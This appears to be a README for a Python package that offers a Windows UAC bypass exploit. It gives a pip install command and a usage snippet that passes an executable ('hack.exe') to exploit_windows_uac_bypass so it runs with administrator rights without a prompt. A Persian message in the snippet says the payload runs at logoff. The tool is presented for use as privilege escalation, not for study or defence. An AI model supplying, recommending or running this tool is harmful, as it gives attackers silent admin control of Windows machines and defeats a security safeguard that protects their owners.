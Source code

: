 # UAC Bypass

A python library that is an exploit for UAC Bypass on Windows. It works on any version of Windows and can execute a pyload(exe) with admin access without confirmation.

**Project:** UAC
**Creator:** Mohammad Taha Gorji

---



## Installation

Users can install UAC Bypass using pip:

```bash
pip install UAC
```

## Getting Started

Use

```python
# Import UAC Bypass
from UACbypass import exploit_windows_uac_bypass


# Use
if __name__ == "__main__":
    # Your Path! For Example payload = r"D:\Project\UACbypass\hack.exe"
    payload = r"D:\Project\UACbypass\hack.exe"

    if exploit_windows_uac_bypass(payload):
        print("Bypass initiated. اگر لاگ آف کنید، payload اجرا می‌شود.")
    else:
        print("Bypass failed.")
```

---


## License

This project is licensed under the MIT License.
```


By Mohammad Taha Gorji
Github: https://Github.com/mr-r0ot